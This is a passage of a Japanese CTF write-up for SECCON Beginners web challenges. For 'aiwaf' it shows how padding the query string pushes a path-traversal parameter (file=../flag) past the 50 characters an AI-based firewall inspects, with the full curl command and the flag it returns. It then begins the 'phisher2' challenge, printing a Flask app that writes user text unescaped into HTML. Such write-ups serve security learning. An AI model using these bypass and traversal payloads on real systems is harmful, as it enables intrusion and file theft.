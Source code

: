 
一見、プロンプトインジェクションに見えますが、よく見ると

```py
{urllib.parse.unquote(request.query_string)[:50]}
```

となっており、クエリパラメータの先頭50文字しか送っていないことがわかります。

そのため、

```
?こんにちは。おげんきですか。こんにちは。おげんきですか。こんにちは。おげんきですか。こんにちは。おげんきですか。&file=../flag
```

のように50文字以降に`file=../flag`がくるようにしてあげると回避できます。

```
$ curl 'https://aiwaf.beginners.seccon.games/?%E3%81%93%E3%82%93%E3%81%AB%E3%81%A1%E3%81%AF%E3%80%82%E3%81%8A%E3%81%92%E3%82%93%E3%81%8D%E3%81%A7%E3%81%99%E3%81%8B%E3%
80%82%E3%81%93%E3%82%93%E3%81%AB%E3%81%A1%E3%81%AF%E3%80%82%E3%81%8A%E3%81%92%E3%82%93%E3%81%8D%E3%81%A7%E3%81%99%E3%81%8B%E3%80%82%E3%81%93%E3%82%93%E3%81%AB%E3%81%A1
%E3%81%AF%E3%80%82%E3%81%8A%E3%81%92%E3%82%93%E3%81%8D%E3%81%A7%E3%81%99%E3%81%8B%E3%80%82%E3%81%93%E3%82%93%E3%81%AB%E3%81%A1%E3%81%AF%E3%80%82%E3%81%8A%E3%81%92%E3%8
2%93%E3%81%8D%E3%81%A7%E3%81%99%E3%81%8B%E3%80%82&file=../flag'
ctf4b{pr0mp7_1nj3c710n_c4n_br34k_41_w4f}
```

## [web] phisher2

この問題は、

`POST /`に送られてきた`text`パラメータをHTMLファイルとして書き込み、
そのHTMLファイルをChromeで表示させて、スクリーンショットを取ります。
そして、OCRでそのスクリーンショットからテキストを読み取り、
読み取ったテキストが`find_url_in_text`でマッチする、かつ`https://phisher2.beginners.seccon.games`で始まっている場合、
`text`パラメータで`find_url_in_text`にマッチするURLに`?flag=FLAG`クエリパラメータをつけてリクエストが送られる。

というようなものになっています。

```py:app.py
import os
import uuid
from admin import share2admin
from flask import Flask, request

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return open("./index.html").read()

@app.route("/", methods=["POST"])
def chall():
    try:
        text = request.json["text"]
    except Exception:
        return {"message": "text is required."}
    fileId = uuid.uuid4()
    file_path = f"/var/www/uploads/{fileId}.html"
    with open(file_path, "w", encoding="utf-8") as f:
        f.write(f'<p style="font-size:30px">{text}</p>')
    message, ocr_url, input_url = share2admin(text, fileId)
    os.remove(file_path)
    return {"message": message, "ocr_url": ocr_url, "input_url": input_url}


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0")
```